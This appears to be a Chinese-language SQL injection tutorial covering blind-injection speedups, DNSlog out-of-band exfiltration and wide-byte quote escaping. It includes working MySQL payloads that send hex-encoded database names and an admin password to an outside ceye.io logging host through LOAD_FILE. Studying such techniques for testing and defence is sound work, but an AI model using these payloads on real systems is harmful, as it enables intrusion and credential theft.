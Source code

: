 ### 时间型盲注的加速方式

**1、Windows平台上的Mysql可以用DNSlog加速注入**

**2、利用二分查找法**

sqlmap盲注默认采用的是二分查找法
> - 利用 ASCII 码作为条件来查询，ASCII 码中字母范围在65~122之间
> - 以这个范围的中间数为条件，判断payload中传入的 ASCII 码是否大于这个中间数
> - 如果大于，就往中间数~~122这块查找。反之亦然~~

## 注入技巧

### DNSlog盲注详解

DNS在解析的时候会留下日志，通过读取多级域名的解析日志，获取请求信息；

DNSlog就是记录用户访问网站域名时，记录DNS和对应的IP的转换访问日志；

MySQL Load_File()函数可以发起请求，使用Dnslog接收请求，获取数据；

通过SQL执行后，将内容输出到DNSlog中记录起来，然后我们可以在DNSlog平台查询回显数据
```sql
union select 1,2,load_file(CONCAT('\\',(SELECT hex(pass) FROM user WHERE name='admin' LIMIT 1),'.mysql.wintrysec.ceye.io\abc'))

--Hex编码的目的是减少干扰，域名有一定的规范，有些特殊字符不能带入
```

> 注意：load_file()只能在windows平台上才能发起请求，linux下做dnslog攻击是不行的
> 
> 因为UNC通用命名规范， \\server\share_name
> 
> 上边 CONCAT 应该写四个反斜杠 \，因为最后会被转义成两个
> 
> 因为Linux没有遵守UNC，所以当MySQL处于Linux系统中的时候，是不能使用这种方式外带数据的

> MySQL数据库配置中要设置secure_file_priv为空,才能完整的去请求DNS
> 
> secure-file-priv参数是用来限制 LOAD DATA, SELECT … OUTFILE, and LOAD_FILE()传到哪个指定目录的
>  - ure_file_priv的值为null ，表示限制mysqld 不允许导入|导出
>  - 当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下
>  - 当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

在时间型盲注中用DNSlog加速注入
```sql
'and if((SELECT LOAD_FILE(CONCAT('\\\\',(SELECT hex(database())),'.xxx.ceye.io\\abc'))),sleep(5),1)%23
```
[DNSlog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)

### 宽字节注入(过滤了单引号)

> 在数据库中使用了宽字符集(GBK，GB2312等)，除了英文都是一个字符占两字节；
> 
> MySQL在使用GBK编码的时候，会认为两个字符为一个汉字(ascii>128才能达到汉字范围)；
> 
> 在PHP中使用`addslashes`函数的时候，会对单引号%27进行转义，在前边加一个反斜杠”\”，变成%5c%27;
> 
> 可以在前边添加%df,形成%df%5c%27，而数据进入数据库中时前边的%df%5c两字节会被当成一个汉字;
> 
> %5c被吃掉了，单引号由此逃逸可以用来闭合语句。
